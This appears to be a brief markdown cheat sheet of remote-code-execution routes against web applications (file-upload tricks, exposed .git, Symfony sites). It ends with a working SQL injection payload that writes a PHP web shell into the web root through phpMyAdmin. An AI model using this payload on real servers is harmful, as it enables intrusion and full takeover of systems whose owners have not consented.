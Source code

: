 # RCE Methods
## in asp web.config upload to RCE & .crl upload to rce
## In PHP .zip upload to rce 
## Polygloit File Upload To Rce
## .git Exposed To RCE
```bash
It happends often. Check For Misconfigurations
```

## In php Symfony-based websites
```bash
https://portswigger.net/daily-swig/symfony-based-websites-open-to-rce-attack-research-finds
```

# Found SQLi ? Now rce
```bash
For Remote code execution I used a simple payload inside phpmyadmin page and I got RCE.
Payload : SELECT “<?php system($_GET[‘<anyParameter>’]); ?>” into outfile “/var/www/html/<filename>.php”
```
